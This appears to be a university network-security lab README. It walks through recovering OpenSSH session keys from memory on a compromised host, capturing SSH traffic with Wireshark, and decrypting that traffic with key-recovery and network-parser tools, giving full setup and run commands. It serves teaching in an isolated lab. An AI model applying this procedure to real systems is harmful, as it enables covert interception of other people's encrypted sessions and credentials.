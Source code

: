 # SSH insecurity example
## Prerequisites
1. Host-based network with attack, infrastructure, and target VMs
2. Termsvr container in target VM

## Overview
You will setup a passive listener on an SSH session between two hosts.  In this example, these are our Attack VM (a compromised host where an attacker has local access) and the Target VM.  You will setup the connection between the two but imagine that from the attacker's perspective, that connection was happening by others and you have the local access on one side.

In addition to having local access, the attacker is able to capture the encrypted traffic going over the network.  For simplicity, you will use Wireshark running also inside the Attack VM.

```
   | Attack VM (client) | <---------SSH---------> | Target VM (server) |
     (devel container)               |
                                     V
 (Wireshark running from Attack VM) Tap
```
Also inside the Attack VM, you will create a new development container and install utilities (details below) to be able to gather the session keys and decrypt the ssh session by using them.  For this version, you would instead use the following docker run command:  `$ docker run --name devel --network host -it ubuntu:latest /bin/bash`.  Everything else should be identical other than where you are running things from.

### Alternate approach
You can alternately capture the keys from the Target VM (server) side.  Here, you would create a devel container for an Ubuntu

```
| Attack VM (client) | <---------SSH---------> | Target VM (server) |
                                  |               (devel container)
                                  V
                                 Tap (Wireshark running from Target VM)
```

## Instructions
1. Launch a new devel container on the Attack VM and setup to capture the ssh session keys (note: we are just downloading the vanilla kali image and do not need a Dockerfile to build one) from it
    ```
    $ docker run --name devel --network host -it kalilinux/kali-last-release:latest /bin/bash 
    # apt-get update
    # apt-get install python3 python3-pip python3-venv git
    # cd ~ && mkdir sandbox && cd sandbox
    # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
    # python3 -m venv sshcrack
    # source sshcrack/bin/activate
    (sshcrack) # pip install cython psutil python-ptrace
    (sshcrack) # python3 netsec-OpenSSH-Session-Key-Recovery/pip-package/openssh_session_keys/keys.py
    ```
1. Connect to the devel container from a second session to install and build OpenSSH-Network-Parser (tool that decrypts the ssh session using the keys, and its pynids dependency)
    ```
    # apt-get install python2 python2-dev virtualenv libglib2.0-0 libpcap-dev libnet1-dev libnids-dev curl
    # curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
    # python2 get-pip.py
    # pip2 install virtualenv
    # python2 -m virtualenv venv-pynids
    # source venv-pynids/bin/activate
    (pynids) # pip2 install gevent tabulate
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-pynids
    (pynids) # cd netsec-pynids 
    (pynids) # python setup.py build
    (pynids) # python setup.py install
    (pynids) # cd ..
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
    (pynids) # cd netsec-OpenSSH-Network-Parser
    (pynids) # pip2 install .
    ```
1. Startup wireshark in attack VM to capture the following ssh session (use filter tcp.port eq 2222) on the interface attached to VMNet1 (on netsec-docker.isi.jhu.edu, 192.168.25.0/24).
1. From the Attack VM, SSH into the termsvr: `# ssh -p 2222 -c aes256-gcm@openssh.com student@term.netsec-docker.isi.jhu.edu`
    * Note that we specify aes256-gcm, which is supported by the network-parser tool (some of the other modes, including the default one, aren't supported)
1. Once you see the keys appear in the first console (i.e., the one running keys.py), you can exit out of the keys.py command and also the ssh session.  For the former, you'll want the results that were output to the screen and save the pcap for the latter.
1. Copy the saved *.pcap into your devel docker container.  Then, in your second devel session, use the network-parser utility to decrypt the *.pcap by providing it and the captured keys to the following command: `(pynids) # network-parser -p <PCAPFILE> -o my/output/dir --proto=[protocol] [--popt key=value] [-s] [-vvvv]`
1. Fun and profit!

## Useful links
* https://research.nccgroup.com/2020/11/11/decrypting-openssh-sessions-for-fun-and-profit
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
* https://github.com/jhu-information-security-institute/netsec-pynids
